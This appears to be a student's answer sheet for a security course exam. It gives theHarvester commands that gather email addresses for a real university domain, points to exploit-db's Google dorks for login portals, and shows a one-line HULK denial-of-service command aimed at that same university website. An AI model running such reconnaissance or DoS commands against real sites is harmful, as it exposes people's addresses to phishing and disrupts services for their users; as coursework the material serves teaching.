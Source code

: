# A part questions(7 points)
 ## Find email addresses which belong to some organization
 ### Solution 1
 ```
 kali@kali:~$ theHarvester -d [domain name] -b [sources] -l [number of results]
 ```
 - Example
 ```
 kali@kali:~$ theHarvester -d sdu.edu.kz -b all -l 200
 ```
 ### Solution 2
 Go to [hunter.io](https://hunter.io) and search
 
 
## Show how to find google dork for "pages containing login"
1. Go to [Exploit database](https://exploit-db.com/google-hacking-database?)
2. Press Filters button (it's orange)
3. Select `Pages Containing Login Portals` in `Category` drop down menu
4. Run any exploit (no matter if it works) 
 
 
## Perform DOS attack on sdu.edu.kz
```
kali@kali:~$ python hulk.py https://sdu.edu.kz
```
 
## Wireshark: show any packet and analyze it
